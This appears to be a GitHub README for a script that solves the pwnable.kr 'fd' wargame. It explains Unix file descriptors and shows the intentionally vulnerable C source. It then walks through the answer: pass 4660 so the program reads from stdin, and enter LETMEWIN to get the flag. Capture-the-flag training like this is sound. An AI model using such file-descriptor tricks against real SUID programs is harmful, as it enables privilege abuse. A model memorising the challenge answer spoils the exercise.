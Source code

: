 # file-descriptor-stdin-attack
In Unix and related computer operating systems, a file descriptor (FD, less frequently fildes) is an abstract indicator (handle) used to access a file or other input/output resource, such as a pipe or network socket. File descriptors form part of the POSIX application programming interface. A file descriptor is a non-negative integer, generally represented in the C programming language as the type int (negative values being reserved to indicate "no value" or an error condition).  Each Unix process (except perhaps a daemon) should expect to have three standard POSIX file descriptors, corresponding to the three standard streams.

# Example of use this Script in wargame pwnable.kr (fd)
```
root@kali:~/Desktop/Scripts# python3 file-descriptor.py --hexvalue 0x1234 --vulnapp fd
[+]Hexvalue: 0x1234
[+]Vulnapp: fd
LETMEWIN
good job :)
you get it the flag
```

# Example in wargame pwnable.kr (fd)

ssh fd@pwnable.kr -p2222 (pw:guest)


We are into the server and we see 3 files: fd  fd.c  flag. It is very importat thing to know who am i, so I just enter id or whoami, and seeing the actual user. The file fd.c is readable by the user fd. -rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
And the binary has SUID bit and I can run it. -r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
Flag file we can't read the solution....So we could trick the fd application to read flag and view the content of the file.

Running the binary file to find out some issue or clue :S. When we open this file, I just discover than I will introduce some kind of argument like a number: 
fd@ubuntu:~$ ./fd
pass argv[1] a number

View of the vulnerable C code:
```c
fd@ubuntu:~$ cat fd.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
    if(argc<2){ // Do not accept less than 2 arguments (program name is one of them), print help and exit
        printf("pass argv[1] a number\n");
        return 0;
    } 

// atoi: convert a string array to integer
    int fd = atoi( argv[1] ) - 0x1234;
    int len = 0;

// Read from file descriptor int(argv[1] - 0x1234)
    len = read(fd, buf, 32);

// If strcmp("LETMEWIN\n", buf) returns 0 (matches), print flag
    if(!strcmp("LETMEWIN\n", buf)){
        printf("good job :)\n");
        system("/bin/cat flag");
        exit(0);
    }
    printf("learn about Linux file IO\n");
    return 0;

}

```
The atoi function convert a string to integer value. It is interesting to know what is Linux File Descriptor. The 0 value is stdin, so I figure out how is the value in decimal to 0x1234 = 4660. If I pass as argument 4660, that is equal to read(0, buf, 32). Therefore we need to know that stdin must be enabled with 0 File Descriptor, and you can convert to zero through argument passed. So if I put 4660, fd == 0 and this let us to write (stdin) LETMEWIN\n and saved in buffer array.
```
fd@ubuntu:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

More information about Linux File Descriptors: https://en.wikipedia.org/wiki/File_descriptor
